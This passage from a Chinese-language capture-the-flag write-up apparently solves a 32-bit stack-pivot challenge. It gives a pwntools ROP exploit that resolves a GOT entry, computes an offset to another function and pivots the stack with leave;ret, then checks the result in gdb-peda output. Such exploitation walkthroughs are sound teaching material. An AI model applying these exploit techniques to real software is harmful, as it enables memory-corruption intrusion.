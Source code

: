 ```python

# calls foothold_function() to populate its GOT entry, then queries that value into EAX
#gdb.attach(io)
payload_1  = p32(foothold_plt)
payload_1 += p32(pop_eax)
payload_1 += p32(foothold_got_plt)
payload_1 += p32(mov_eax_eax)
payload_1 += p32(pop_ebx)
payload_1 += p32(offset)
payload_1 += p32(add_eax_ebx)
payload_1 += p32(call_eax)

io.sendline(payload_1)

# ebp = leakaddr-4, esp = leave_ret
payload_2  = "A"*40
payload_2 += p32(leakaddr-4) + p32(leave_ret)

io.sendline(payload_2)
print io.recvall()
```

这里我们在 gdb 中验证一下，在 pwnme() 函数的 leave 处下断点：
```
gdb-peda$ b *0x0804889f
Breakpoint 1 at 0x804889f
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0xffe7ec68 --> 0xf755cf0c --> 0x0 
ESP: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EIP: 0x804889f (<pwnme+173>:    leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048896 <pwnme+164>:       call   0x80485b0 <fgets@plt>
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
=> 0x804889f <pwnme+173>:       leave  
   0x80488a0 <pwnme+174>:       ret    
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
0004| 0xffe7ec44 ('A' <repeats 36 times>, "\f\317U\367\237\210\004\b\n")
0008| 0xffe7ec48 ('A' <repeats 32 times>, "\f\317U\367\237\210\004\b\n")
0012| 0xffe7ec4c ('A' <repeats 28 times>, "\f\317U\367\237\210\004\b\n")
0016| 0xffe7ec50 ('A' <repeats 24 times>, "\f\317U\367\237\210\004\b\n")
0020| 0xffe7ec54 ('A' <repeats 20 times>, "\f\317U\367\237\210\004\b\n")
0024| 0xffe7ec58 ('A' <repeats 16 times>, "\f\317U\367\237\210\004\b\n")
0028| 0xffe7ec5c ('A' <repeats 12 times>, "\f\317U\367\237\210\004\b\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804889f in pwnme ()
gdb-peda$ x/10w 0xffe7ec68
0xffe7ec68:     0xf755cf0c      0x0804889f      0xf755000a      0x00000000
0xffe7ec78:     0x00000002      0x00000000      0x00000001      0xffe7ed44
```